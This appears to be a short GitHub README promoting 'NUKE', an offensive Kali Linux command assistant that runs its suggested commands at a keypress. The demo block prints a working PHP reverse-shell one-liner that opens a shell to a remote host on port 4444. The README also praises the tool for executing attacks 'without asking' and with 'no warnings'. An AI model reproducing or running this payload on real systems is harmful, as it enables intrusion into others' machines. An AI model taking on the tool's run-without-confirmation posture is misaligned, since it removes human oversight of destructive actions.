

<p align="center"  width="280"> 
 
</p> 
<br>

<p color=" style=" color:#00ff00 align="center">
  <b>⚡N U K E ⚡</b>
</p>

 <h3 align="center">
    
 [](https://t.me/wtf_mr21)
 
  
   
   
  
   

  <div align="center">

**The Kali co-pilot that doesn't ask. It just detonates.**  
Press `r` → it runs. No warnings. No mercy.

<br>

```bash
▸ spawn reverse shell php one-liner
php -r '$sock=fsockopen("10.10.10.10",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

[r] Run  •  [SPACE] Details  •  [ENTER] Copy  •  [q] Quit```


